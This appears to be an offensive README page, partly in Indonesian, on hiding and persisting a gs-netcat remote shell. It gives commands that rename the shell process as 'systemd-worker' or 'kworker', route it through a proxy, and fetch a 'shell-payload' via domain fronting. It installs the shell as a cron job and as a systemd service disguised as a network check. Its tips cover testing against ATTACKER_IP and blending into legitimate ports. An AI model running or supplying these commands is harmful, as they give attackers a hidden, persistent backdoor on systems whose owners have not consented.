 ### 1. Process Hiding:
```bash
# Rename process
exec -a "systemd-worker" gs-netcat -c -s secret -i

# Background dengan nohup
nohup bash -c 'exec -a "kworker" gs-netcat -c -s secret -i' &
```

### 2. Traffic Obfuscation:
```bash
# Via HTTPS proxy
gs-netcat -c -s secret -i --proxy-type https --proxy-host proxy.com:443

# Domain fronting
curl -H "Host: legitimate.com" https://cdn.cloudflare.com/shell-payload
```

### 3. Persistence Integration:
```bash
# Cron job
echo "*/5 * * * * /usr/bin/gs-netcat -c -s secret -i" | crontab -

# Systemd service
cat > /etc/systemd/system/network-check.service << EOF
[Unit]
Description=Network Connectivity Check
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/gs-netcat -c -s secret -i
Restart=always
User=nobody

[Install]
WantedBy=multi-user.target
EOF
```

## ⚡ Tips Praktis

1. **Selalu test koneksi dulu**: `telnet ATTACKER_IP PORT`
2. **Gunakan multiple methods**: Backup jika satu method gagal
3. **Monitor network traffic**: Pastikan tidak mencurigakan
4. **Rotate secret keys**: Ganti key secara berkala
5. **Use legitimate ports**: 80, 443, 53, 22

## 🚨 Troubleshooting

### Common Issues:
- **Connection refused**: Check firewall dan port
- **Binary not found**: Verify installation path
- **Permission denied**: Check file permissions
- **Network timeout**: Test dengan curl/telnet dulu
